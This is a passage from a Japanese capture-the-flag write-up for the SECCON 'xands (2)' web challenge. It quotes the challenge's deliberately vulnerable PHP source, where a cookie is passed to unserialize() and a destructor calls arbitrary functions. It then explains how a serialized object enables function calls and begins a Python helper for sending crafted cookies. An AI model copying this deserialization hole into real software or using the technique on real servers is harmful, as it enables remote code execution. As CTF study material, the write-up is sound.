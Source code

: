 ```
SECCON{Im-DTD-master!}
```

### [Web 100] xands (2)

> http://xands.seccon

1 の脆弱性を使うと、`2/2.php` の内容が得られました。

```php
<?php
header('Content-Type: text/plain');

if(empty($_COOKIE['VULN'])) {
  echo 'Parameter Missing.';
  exit;
}

class Vuln {
  private $func;
  private $args;
  public function __construct($func, $args) {
    $this->func = $func;
    $this->args = $args;
  }
  public function __destruct() {
    $dargs = [];
    foreach($this->args as $value) {
      $dargs[] = openssl_decrypt($value, 'aes-256-ecb', apache_getenv("APP_SECRET_KEY"));
    }
    call_user_func_array($this->func, $dargs);
  }
}

$vuln = unserialize($_COOKIE['VULN']);
print_r($vuln);

exit;
?>

*** HINT ***
You can use 'favor.dtd' to retrieve this php source code.
(../1/1.php contains FLAG 1of2.)
```

`new Vuln('関数名', ['引数1', '引数2'])` を serialize したものを Cookie にセットすると好きな関数を呼べるようですが、引数についてはあらかじめ `apache_getenv("APP_SECRET_KEY")` を使って暗号化しておく必要があります。

楽に試せるように、スクリプトを書いておきましょう。

```python
import requests
import sys
import urllib
from subprocess import *

def get_output(s):
  t = 'tmp.php'
  with open(t, 'wb') as f:
    f.write(s)
  return check_output(['php', t]).strip()

def check(url, s):
  return requests.get(url, cookies={
    'VULN': urllib.quote(s)
  }).content
```